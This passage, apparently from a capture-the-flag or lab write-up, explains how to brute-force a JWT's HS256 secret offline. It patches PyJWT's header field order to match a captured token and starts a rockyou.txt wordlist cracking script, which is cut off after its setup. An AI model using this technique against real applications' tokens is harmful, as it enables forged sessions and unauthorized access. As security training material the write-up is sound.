 While the encoded payloads of both tokens are indeed identical, the headers are unfortunately not:
```
ORG: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9
NEW: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9
```

When we decode both headers, it becomes clear, what is wrong:
```
ORG: b'{"alg":"HS256","typ":"JWT"}'
NEW: b'{"typ":"JWT","alg":"HS256"}'
```

The order of the fields in the header generated by the `jwt` library differs from our original
token! While this would not be an issue for creating a valid JWT for sending it somewhere, our
current goal is to find the correct secret. As the header is taking into account when signing the
token, the signature of our new token would be different. Thus we would not be able to check if we
found the correct secret without sending the token to the server. As this would slow down our word
list attack significantly, we'll have to find another way.

Of course we could just ditch `jwt` and implement the signature ourselves. While this is probably
not that complicated let's first see if we can patch the `jwt` library locally to change the order
to match our original token.

Resolving the `encode()` call in our IDE brings us into the library's `PyJWT.encode()` method. This
method ends up calling into `PyJWS.encode()` where we finally find these lines:
```python
# Header
header = {"typ": self.header_typ, "alg": algorithm}
```

Can it really be that easy? After changing the code to
`header = {"alg": algorithm, "typ": self.header_typ}` we run our script again and the headers are
now identical:
```
ORG: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkYXRhIjp7ImlkIjo1LCJ1c2VybmFtZSI6InVzZXIiLCJlbWFpbCI6ImVtYWlsIiwicGFzc3dvcmQiOiI5MDE5MjQ1NjUifSwiaWF0IjoxNjI1NTk1OTQwfQ.fct7HvhkQRh5pvu4Vjze4BCNf0wul3l7cUfjWr0vWzg
NEW: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkYXRhIjp7ImlkIjo1LCJ1c2VybmFtZSI6InVzZXIiLCJlbWFpbCI6ImVtYWlsIiwicGFzc3dvcmQiOiI5MDE5MjQ1NjUifSwiaWF0IjoxNjI1NTk1OTQwfQ.fZ_z787VcaZlqDE_zwDAqKY5cP3EcypPtV9E6BvPef8
```

Now it's time to extend the script for our word list attach. After reading the passwords from
`rockyou.txt`, we loop over all of them, create a JWT and compare it to our original token. If
both tokens match, we have found the secret. To get a nice progress bar during the process, we
use the `tqdm` library:
```python
import jwt
from tqdm import tqdm

original_token = (
    "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9."
    + "eyJkYXRhIjp7ImlkIjo1LCJ1c2VybmFtZSI6InVzZXIiLCJlbWFpbCI6ImVt"
    + "YWlsIiwicGFzc3dvcmQiOiI5MDE5MjQ1NjUifSwiaWF0IjoxNjI1NTk1OTQwfQ."
    + "fct7HvhkQRh5pvu4Vjze4BCNf0wul3l7cUfjWr0vWzg"
)

payload = {
    "data": {
        "id": 5,
        "username": "user",
        "email": "email",
        "password": "901924565",
    },
    "iat": 1625595940,
}

print("Loading passwords ...")
```